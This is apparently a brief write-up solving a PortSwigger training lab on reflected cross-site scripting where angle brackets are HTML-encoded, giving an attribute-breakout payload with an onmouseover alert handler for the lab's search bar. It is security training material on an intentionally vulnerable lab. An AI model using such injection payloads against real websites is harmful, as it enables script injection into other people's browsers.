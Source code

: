# Reflected XSS into attribute with angle brackets HTML-encoded
Lab URL :- `https://portswigger.net/web-security/cross-site-scripting/contexts/lab-attribute-angle-brackets-html-encoded`

![image](https://user-images.githubusercontent.com/60841283/153721156-41685820-faff-450d-80a2-14a4aa4609cf.png)

Just avoid using angle brackets :- 

`https://security.stackexchange.com/questions/81824/cross-site-scripting-when-the-greater-than-and-less-than-signs-are-escaped`

Payload in search bar:- 
`" onmouseover="alert('GOTCHA')"`

![image](https://user-images.githubusercontent.com/60841283/153721084-796126b6-a174-4c29-adf0-6dce309548a1.png)
